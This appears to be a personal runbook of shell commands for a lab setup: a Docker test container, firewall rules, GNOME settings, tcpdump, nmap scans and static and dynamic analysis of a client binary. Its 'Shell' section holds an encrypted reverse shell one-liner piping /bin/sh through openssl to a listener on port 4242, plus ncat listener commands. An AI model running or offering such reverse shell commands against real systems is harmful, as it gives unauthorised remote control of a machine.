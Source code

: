 # Runbook

...

## Docker test environment

Start container:

```bash
docker run --name vmtest --rm -dit nicolaka/netshoot bash
docker cp bin/client vmtest:/client
docker exec -it vmtest bash
````

Check the host gateway from inside the container:

```bash
ip route | grep default
```

---

## Firewall (UFW)

Allow incoming connections to TCP port **8969**:

```bash
sudo ufw allow from 192.168.0.0/24 to any port 8969 proto tcp
```

---

## GNOME utils

Set wallpapers:

```bash
gsettings get org.gnome.desktop.interface color-scheme
#gsettings set org.gnome.desktop.interface color-scheme 'prefer-dark'
gsettings get org.gnome.desktop.background picture-uri
#gsettings get org.gnome.desktop.background picture-uri-dark
gsettings set org.gnome.desktop.background picture-uri 'file://<image-path>'
#gsettings set org.gnome.desktop.background picture-uri-dark 'file://<image-path>'
```

Open terminal with msg:

```bash
sudo su <USER>
gnome-terminal -- bash -c "cowsay 'Hello world'; exec bash"
```

## Shell

Upgrade shell:

```bash
ncat -lvnp 4242
#python shtty.py
```

SSL:

```bash
ncat --ssl -lvnp 4242 --ssl-cert cert.pem --ssl-key key.pem
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.x:4242 > /tmp/s; rm /tmp/s
#mkfifo /tmp/s; python -c 'import pty; pty.spawn("/bin/sh")' < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.x:4242 > /tmp/s; rm /tmp/s
```

## SSL

Generate SSL cert:

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

## tcpdump

```bash
sudo tcpdump -i any tcp port 4242 -n -vv
#sudo tcpdump -i any tcp port 4242 -n -X
sudo tcpdump -i any host 192.168.0.x and port 4242 -n -X -w conn4242.pcap
```

## nmap

```bash
nmap -p- -sV 192.168.0.x
sudo nmap -sS -p- 127.0.0.1
```

## etc

```bash
sudo ss -antup
sudo lsof -p <PID>
nc -vz <HOST> <PORT>

loginctl list-sessions
loginctl show-session <SESSION> -p Name -p State -p Type -p Display

readelf -h bin/client
objdump -x bin/client
ldd bin/client
strings -a bin/client | less
objdump -d bin/client | less
strace -f -o trace.log bin/client
ltrace -f -o ltrace.log bin/client
sudo sysdig proc.name=client
gdb bin/client

sudo tcpdump -i any -w sample.pcap
sudo inotifywait -r /tmp /var /home -m




```



...


